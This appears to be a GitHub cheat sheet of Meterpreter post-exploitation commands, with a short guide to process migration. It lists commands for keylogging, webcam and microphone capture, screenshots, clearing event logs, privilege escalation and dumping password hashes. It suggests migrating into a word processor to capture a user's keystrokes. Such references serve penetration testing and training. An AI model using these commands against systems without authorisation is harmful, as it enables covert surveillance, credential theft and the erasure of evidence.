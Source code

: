--- ---

<h2>Top Commands</h2>

**Meterpreter Commands**
```Terminal
sessions -u NUMBER     ---> Turn Shell into Meterpreter session

run          ---> Executes a Meterpreter script or Post module
sessions     ---> Quickly switch to another session 
migrate      ---> Allows you to migrate Meterpreter to another process
background   ---> Backgrounds the current session
exit         ---> Terminate the Meterpreter session

help         ---> Displays the help menu
info         ---> Displays information about a Post module
irb          ---> Opens an interactive Ruby shell on the current session
load         ---> Loads one or more Meterpreter extensions

#Networking commands

arp          ---> Displays the host ARP (Address Resolution Protocol) cache
ifconfig     ---> Displays network interfaces available on the target system  

netstat      ---> Displays the network connections
portfwd      ---> Forwards a local port to a remote service
route        ---> Allows you to view and modify the routing table
resolve X_Y  ---> Check DNS of local network to find a host IP

#System commands

clearev      ---> Clears the event logs
execute      ---> Executes a command
getpid       ---> Shows the current process identifier
getuid       ---> Shows the user that Meterpreter is running as
kill         ---> Terminates a process
pkill        ---> Terminates processes by name
ps           ---> Lists running processes
reboot       ---> Reboots the remote computer
shell        ---> Drops into a system command shell
shutdown     ---> Shuts down the remote computer
sysinfo      ---> Gets information about the remote system, such as OS

#Others Commands (Listed under different menu categories in the help section)

idletime      ---> Returns the number of seconds the remote user has been idle
keyscan_dump  ---> Dumps the keystroke buffer
keyscan_start ---> Starts capturing keystrokes
keyscan_stop  ---> Stops capturing keystrokes
screenshare   ---> Allows you to watch the remote user's desktop in real time
screenshot    ---> Grabs a screenshot of the interactive desktop
record_mic    ---> Records audio from the default microphone for X seconds
webcam_chat   ---> Starts a video chat
webcam_list   ---> Lists webcams
webcam_snap   ---> Takes a snapshot from the specified webcam
webcam_stream ---> Plays a video stream from the specified webcam
getsystem     ---> Attempts to elevate your privilege to that of local system
hashdump      ---> Dumps the contents of the SAM database
```

- Meterpreter Migration Shell

	Migrating to another process will help Meterpreter interact with it. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process. Some Meterpreter versions will offer you the `keyscan_start`, `keyscan_stop`, and `keyscan_dump` command options to make Meterpreter act like a keylogger. Migrating to another process may also help you to have a more stable Meterpreter session. If you migrate in process id of browser, it might even be possible to inject elements in the web page.

	To migrate the session, you can use the `migrate` command and specify the PID of the target process. For example, if you wanted to migrate the session to the process with PID 1234, you would use the following command:

	The migrate command
	```shell-session
	- meterpreter > migrate 1234
	[*] Migrating from 1304 to 1234...
	[*] Migration completed successfully.
	meterpreter >
	```

	When you migrate the session to a different process, the payload is injected into the target process and begins executing within its context. This means that the payload is now running within the same process as the target process, and has the same privileges and access to resources as the target process. We can think about this has both PID that fuse together!

	Be careful; you may lose your user privileges if you migrate from a higher privileged (e.g. SYSTEM) user to a process started by a lower privileged user (e.g. webserver). You may not be able to gain them back.